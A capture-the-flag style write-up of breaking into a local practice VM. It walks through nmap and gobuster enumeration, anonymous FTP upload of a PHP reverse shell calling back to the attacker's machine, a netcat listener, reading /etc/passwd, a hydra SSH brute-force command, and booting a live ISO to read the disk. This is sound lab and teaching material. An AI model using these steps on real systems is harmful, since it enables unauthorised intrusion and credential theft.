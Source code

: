 # Task 1: Gain access to a remote server.

After starting the machine, our first task is to identify the ip of the virtual machine in local subnet. I did that by simply doing an nmap scan on the local subnet, since we already know the machine will be hosting a server. There probably are better methods to do the same, but I found this one to be easy and fast in this case.  
`nmap 192.168.1.1/24`  
Within a few seconds, we see only 192.168.1.1 and 192.168.1.10 have open http ports, and since 192.168.1.1 is our router interface, the machine has to be 192.168.1.10.

Now we perform an indepth nmap scan of the ip, using service detection.  
`nmap 192.168.1.10 -sV -p-`  
~~~
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
MAC Address: 08:00:27:42:22:F8 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~
After running the following command, we find only open ports to be 21(ftp), 22(ssh) and 80(http). I tried finding the versions of these service on exploit-db but couldn't find a decent exploit and decided to investigate other things first. Using gobuster, we can perform directory enumeration on port 80 to find common directories.  
`gobuster dir -e -u http://192.168.1.10/ -w /usr/share/wordlists/dirb/common.txt`  
~~~
http://192.168.1.10/.hta                 (Status: 403) [Size: 277]
http://192.168.1.10/.htpasswd            (Status: 403) [Size: 277]
http://192.168.1.10/.htaccess            (Status: 403) [Size: 277]
http://192.168.1.10/files                (Status: 301) [Size: 312] [--> http://192.168.1.10/files/]
http://192.168.1.10/index.html           (Status: 200) [Size: 183]                                 
http://192.168.1.10/server-status        (Status: 403) [Size: 277] 
~~~
We found /files/ directory to be accessible by us containing a file 'site.html', which isn't particularly useful though.  
Next we investigate the ftp port and check if it allows anonymous connections:  
`ftp 192.168.1.10`  
~~~
Connected to 192.168.1.10.
220 ProFTPD Server (ProFTPD Default Installation) [192.168.1.10]
Name (192.168.1.10:tinytrebuchet): anonymous
331 Anonymous login ok, send your complete email address as your password
Password:
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      ftp            93 Oct 10 15:02 site.html
~~~
As we can see, the ftp allows anonymous access into the /files/ directory and we can now upload any file via ftp to the server and run it from /files/ on port 80. To get into the server, we will upload a simple php-reverse-shell on port 8888.  
`cp /usr/share/webshells/php/php-reverse-shell.php ~/innocent.php`  
Then we modify the reverse-shell script and change ip to our host os ip (192.168.1.6 for our case found using `ip addr`) and port to 8888. Then finally upload it the server using the ftp connection.  
`put innocent.php`  
~~~
local: innocent.php remote: innocent.php
200 PORT command successful
150 Opening BINARY mode data connection for hash.txt
226 Transfer complete
5493 bytes sent in 0.00 secs (7.9493 kB/s)
~~~
Now, we open a netcat listener on our host os at port 8888 using and then execute the reverse-shell from the http://192.168.10/files/ directory.
We should get a successful connect on our host os:
`nc -lvp 8888`
~~~
listening on [any] 8888 ...
192.168.1.10: inverse host lookup failed: Unknown host
connect to [192.168.1.6] from (UNKNOWN) [192.168.1.10] 37384
Linux ubuntu 4.4.0-210-generic #242-Ubuntu SMP Fri Apr 16 09:57:56 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 02:56:34 up 39 min,  0 users,  load average: 0.08, 0.04, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
~~~
A good practice is to stabilize the reverse shell, which can be done easily if the server has python installed, that way we have support for tab-autocompletion and Ctrl-C doesn't close our netcat listener. This can be done by executing the following commands:  
```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/$ export TERM=xterm
```
Then, we press Ctrl-Z on our keyboard to background the reverse shell, modify the stty on your host os, and then foreground:  
`stty raw -echo; fg`  
After this, we should have a fully stabilized reverse-shell.  

We are logged in as www-data: `uid=33(www-data) gid=33(www-data) groups=33(www-data)`, which doesn't have a lot of permissions, so I thought we might need to perform privilege escalation later. But first, we checked the machine for some basic info.  
`cat /etc/passwd`
~~~
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
ftp:x:1001:1001:,,,:/home/ftp:/bin/bash
colord:x:110:119:colord colour management daemon,,,:/var/lib/colord:/bin/false
sshd:x:111:65534::/var/run/sshd:/usr/sbin/nologin
dk:x:1000:1000:dk:/home/dk:/bin/bash
~~~
`cd /home/; ls -al`
~~~
drwxr-xr-x  3 root root   4096 Oct 10 08:55 .
drwxr-xr-x 23 root root   4096 Oct 10 09:17 ..
-rwxr-xr-x  1 root root 211528 Aug  5 04:35 .fishy.vt
-rw-r-----  1 root root  16384 Aug  5 08:08 .fishy.vt.swp
drwxr-x---  4 dk   dk     4096 Oct 15 20:48 dk
-rwxr-xr-x  1 root root     32 Aug  5 08:06 runme.sh
~~~
We see the machine has another user named 'dk' and we don't have access to his home directory. The key should be in there somewhere. There's also a runme.sh script which just cats .fishy.vt slowly using pv, as an asciimation. However the file has an interesting 32 digit base64 encoded string written in it on top : 'mpthRrM4f0XPQem4ISiZL3kxDgMLrX6S'. I checked if it's the password of any user, dk or root, by doing `su <user>` and putting this as password, but no use. I also tried to bruteforce the password by using hydra on ssh port, but without any success (the connection seemed to be possible throttled).  
`hydra -l dk -P /usr/share/wordlists/rockyou.txt 192.168.1.10 -t 4 -vV -I -f ssh`  
I decided to investigate for privilege escalation on the machine. I used the 'linpeas.sh' and 'LinEnum.sh' scripts available on github to find any vulnerablites. I put them in the /files/ directory using the ftp connection from host os, and then copied them from /var/www/html/files/ to /tmp/ on the server. I checked for any exploitable SUID file or crontabs or anyother vulnerablity in general but couldn't find anything much useful and exploitable. I even tried to look for kernerl exploits from exploit-db but with no success. After a lot of thinking and finding, and since I was running short on time, I finally gave up on this.  


## Method 2
I actually thought of this method immediately when I saw the ova file, but decided to save it for last, as it doesn't involving finding vulnerablites in the server, but is rather a dirty trick, but it still allowed me to get the key in under 5 mins, so I thought to share it here.  
The plan was, if the machine has unencrypted file system, we could simple boot from a live-usb to access the filesystem and get the key from dk's home directory. I used my handy arch-iso (I use arch btw 😛), put that into virtual machine's storage devices under 'Controller: IDE', marked it as 'Live CD/DVD' on right pane, saved the changes and rebooted the machine. As expected, the machine booted from live arch iso, and we could easily get the file by mounting the file system.  

![Screenshot from 2021-10-18 12-08-12](https://user-images.githubusercontent.com/73381089/137680984-ff0af756-6436-4bde-b373-a02762fa61b3.png)
